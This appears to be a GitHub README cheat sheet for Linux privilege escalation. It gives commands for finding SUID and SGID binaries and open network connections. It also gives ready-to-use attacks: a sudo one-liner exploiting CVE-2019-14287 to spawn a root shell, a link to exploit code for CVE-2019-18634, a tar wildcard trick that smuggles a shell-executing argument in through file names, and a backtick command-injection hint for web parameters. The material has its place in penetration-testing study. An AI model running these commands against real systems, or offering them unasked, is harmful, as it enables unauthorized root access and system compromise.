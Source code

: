 # Linux Enumeration

| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```find / -perm -u=s -type f 2>/dev/null``` | Find SUID files |
| ```find / -type f -perm -04000 -ls 2>/dev/null``` | Alternate find for SUID files |
| ```find / -perm -g=s -type f 2>/dev/null``` | Find SGID files |
| ```lsof -i``` | List open files for intrnet and network connections | 
| ```lsof -i :80``` | List open files on TCP 80 | 

| Check | Description |
| ---------------------------- | ---------------------------- |
| Sudo Local Privilege Escalation (CVE-2019-14287) | Sudo versions < 1.8.27 may be vulnerable to LPE, check: ```sudo -u#-1 /bin/bash``` |
| Sudo Buffer Overflow (CVE-2019-18634)| Sudo versions < 1.8.26 may be vulnerable to a buffer overflow, pwfeedback enabled: [GitHub for Code](https://github.com/saleemrashid/sudo-cve-2019-18634/blob/master/exploit.c) |
| Tar wildcard * | Checkpoint syntax ```touch /home/user/--checkpoint=1``` and ```touch /home/user/--checkpoint-action=exec=sh\ shell.sh``` | 
| LFI /api/?something=`whoami` | Try using the ``` ` ``` backtick symbol in addition to quotes ' |
| Shell escapes | Be sure that your terminal window has enough text for pagination, or else the shell escape may not work |
